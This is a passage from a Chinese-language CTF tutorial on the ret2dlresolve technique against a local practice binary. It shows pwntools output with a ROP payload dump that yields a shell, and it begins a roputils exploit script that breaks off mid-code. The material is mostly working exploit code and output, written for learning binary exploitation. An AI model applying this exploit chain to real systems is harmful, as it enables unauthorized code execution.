 需要注意的是，这里我'/bin/sh'的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

```
0x0050:           'aara'
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage6.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 130415
[*] Loaded cached gadgets for './main'
0x0000:        0x8048380
0x0004:           0x2528
0x0008:           'bbbb' 'bbbb'
0x000c:        0x804a892
0x0010:           'bbbb' 'bbbb'
0x0014:           'bbbb' 'bbbb'
0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
0x001c:  '\x07i\x02\x00'
0x0020:           'aaaa' 'aaaaaaaa'
0x0024:           'aaaa'
0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
0x002c: '\x00\x00\x00\x00'
0x0030: '\x00\x00\x00\x00'
0x0034: '\x12\x00\x00\x00'
0x0038:           'syst' 'system\x00'
0x003c:        'em\x00o'
0x0040:             'aa'
0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
0x0048:           'aaaa'
0x004c:           'aaaa'
0x0050:           'aara'
82
[*] Switching to interactive mode
/bin/sh: 1: xa: not found
$ ls
core  main.c     stage2.py  stage4.py  stage6.py
main  stage1.py  stage3.py  stage5.py
```

#### 工具攻击

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./main')
context.log_level = 'debug'
r.recv()

rop = ROP('./main')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
```